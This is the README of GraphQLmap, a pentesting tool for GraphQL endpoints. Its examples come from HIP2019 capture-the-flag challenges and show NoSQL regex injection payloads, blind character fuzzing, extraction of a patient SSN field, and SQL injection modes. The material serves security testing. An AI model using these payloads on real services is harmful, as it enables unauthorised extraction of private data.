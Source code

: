 # GraphQLmap

> GraphQLmap is a scripting engine to interact with a graphql endpoint for pentesting purposes.


* [Install](#install)
* [Features and examples](#features-and-examples)
  - [Dump a GraphQL schema](#dump-a-graphql-schema)
  - [Interact with a GraphQL endpoint](#interact-with-a-graphql-endpoint)
  - Execute GraphQL queries
  - Autocomplete queries
  - [GraphQL field fuzzing](#graphql-field-fuzzing)
  - [NoSQL injection inside a GraphQL field](#nosql-injection)
  - [SQL injection inside a GraphQL field](#sqli-injection)

I :heart: pull requests, feel free to improve this script :)

You can also contribute with a :beers: IRL or using Github Sponsoring button.

## Install

```basic
$ git clone github.com/swisskyrepo/GraphQLmap
$ python graphqlmap.py                                                              
   _____                 _      ____  _                            
  / ____|               | |    / __ \| |                           
 | |  __ _ __ __ _ _ __ | |__ | |  | | |     _ __ ___   __ _ _ __  
 | | |_ | '__/ _` | '_ \| '_ \| |  | | |    | '_ ` _ \ / _` | '_ \ 
 | |__| | | | (_| | |_) | | | | |__| | |____| | | | | | (_| | |_) |
  \_____|_|  \__,_| .__/|_| |_|\___\_\______|_| |_| |_|\__,_| .__/ 
                  | |                                       | |    
                  |_|                                       |_|    
                                         Author:Swissky Version:1.0
usage: graphqlmap.py [-h] [-u URL] [-v [VERBOSITY]] [--method [METHOD]] [--headers [HEADERS]]

optional arguments:
  -h, --help          show this help message and exit
  -u URL              URL to query : example.com/graphql?query={}
  -v [VERBOSITY]      Enable verbosity
  --method [METHOD]   HTTP Method to use interact with /graphql endpoint
  --headers [HEADERS] HTTP Headers sent to /graphql endpoint
```


## Features and examples

:warning: Examples are based on several CTF challenges from HIP2019.

### Connect to a graphql endpoint

```
python3 graphqlmap.py -u https://yourhostname.com/graphql -v --method POST --headers '{"Authorization" : "Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ0ZXh0Ijoibm8gc2VjcmV0cyBoZXJlID1QIn0.JqqdOesC-R4LtOS9H0y7bIq-M8AGYjK92x4K3hcBA6o"}'
```

### Dump a GraphQL schema

Use `dump` to dump the GraphQL schema, this function will automaticly populate the "autocomplete" with the found fields.    
[:movie_camera: Live Example](https://asciinema.org/a/14YuWoDOyCztlx7RFykILit4S)

```powershell
GraphQLmap > dump                     
============= [SCHEMA] ===============
e.g: name[Type]: arg (Type!)                   
                                                                                               
Query                                          
        doctor[]: email (String!),                                                             
        doctors[Doctor]:                                                                       
        patients[Patient]:                                                                     
        patient[]: id (ID!),                   
        allrendezvous[Rendezvous]:                                                             
        rendezvous[]: id (ID!),                                                                
Doctor                                         
        id[ID]:                                                                                
        firstName[String]:                     
        lastName[String]:                                                                      
        specialty[String]:                     
        patients[None]: 
        rendezvous[None]: 
        email[String]: 
        password[String]: 
[...]
```


### Interact with a GraphQL endpoint

Write a GraphQL request and execute it.

```powershell
GraphQLmap > {doctors(options: 1, search: "{ \"lastName\": { \"$regex\": \"Admin\"} }"){firstName lastName id}}
{
    "data": {
        "doctors": [
            {
                "firstName": "Admin",
                "id": "5d089c51dcab2d0032fdd08d",
                "lastName": "Admin"
            }
        ]
    }
}
```

### GraphQL field fuzzing

Use `GRAPHQL_INCREMENT` and `GRAPHQL_CHARSET` to fuzz a parameter.      
[:movie_camera: Live Example](https://asciinema.org/a/ICCz3PqHVNrBf262x6tQfuwqT)

```powershell
GraphQLmap > {doctors(options: 1, search: "{ \"lastName\": { \"$regex\": \"AdmiGRAPHQL_CHARSET\"} }"){firstName lastName id}}   
[+] Query: (45) {doctors(options: 1, search: "{ \"lastName\": { \"$regex\": \"Admi!\"} }"){firstName lastName id}}   
[+] Query: (45) {doctors(options: 1, search: "{ \"lastName\": { \"$regex\": \"Admi$\"} }"){firstName lastName id}}   
[+] Query: (45) {doctors(options: 1, search: "{ \"lastName\": { \"$regex\": \"Admi%\"} }"){firstName lastName id}}   
[+] Query: (45) {doctors(options: 1, search: "{ \"lastName\": { \"$regex\": \"Admi(\"} }"){firstName lastName id}}   
[+] Query: (45) {doctors(options: 1, search: "{ \"lastName\": { \"$regex\": \"Admi)\"} }"){firstName lastName id}}   
[+] Query: (206) {doctors(options: 1, search: "{ \"lastName\": { \"$regex\": \"Admi*\"} }"){firstName lastName id}}   
[+] Query: (45) {doctors(options: 1, search: "{ \"lastName\": { \"$regex\": \"Admi+\"} }"){firstName lastName id}}   
[+] Query: (45) {doctors(options: 1, search: "{ \"lastName\": { \"$regex\": \"Admi,\"} }"){firstName lastName id}}   
[+] Query: (45) {doctors(options: 1, search: "{ \"lastName\": { \"$regex\": \"Admi-\"} }"){firstName lastName id}}   
[+] Query: (206) {doctors(options: 1, search: "{ \"lastName\": { \"$regex\": \"Admi.\"} }"){firstName lastName id}}   
[+] Query: (45) {doctors(options: 1, search: "{ \"lastName\": { \"$regex\": \"Admi/\"} }"){firstName lastName id}}   
[+] Query: (45) {doctors(options: 1, search: "{ \"lastName\": { \"$regex\": \"Admi0\"} }"){firstName lastName id}}   
[+] Query: (45) {doctors(options: 1, search: "{ \"lastName\": { \"$regex\": \"Admi1\"} }"){firstName lastName id}}     
[+] Query: (206) {doctors(options: 1, search: "{ \"lastName\": { \"$regex\": \"Admi?\"} }"){firstName lastName id}}
[+] Query: (206) {doctors(options: 1, search: "{ \"lastName\": { \"$regex\": \"Admin\"} }"){firstName lastName id}}
```

### NoSQLi injection

Use `BLIND_PLACEHOLDER` inside the query for the `nosqli` function.    
[:movie_camera: Live Example](https://asciinema.org/a/wp2lixHqRV0pxxhZ8nsgUj6s7)

```powershell
GraphQLmap > nosqli
Query > {doctors(options: "{\"\"patients.ssn\":1}", search: "{ \"patients.ssn\": { \"$regex\": \"^BLIND_PLACEHOLDER\"}, \"lastName\":\"Admin\" , \"firstName\":\"Admin\" }"){id, firstName}}
Check > 5d089c51dcab2d0032fdd08d
[+] Data found: 4f537c0a-7da6-4acc-81e1-8c33c02ef3b
```

### SQL injection 

```powershell
GraphQLmap > postgresqli
GraphQLmap > mysqli
GraphQLmap > mssqli
```


## TODO

* Docker with vulnerable GraphQL
* Unit tests
* Handle node
```
{
  user {
    edges {
      node {
        username
      }
    }
  }
}
```
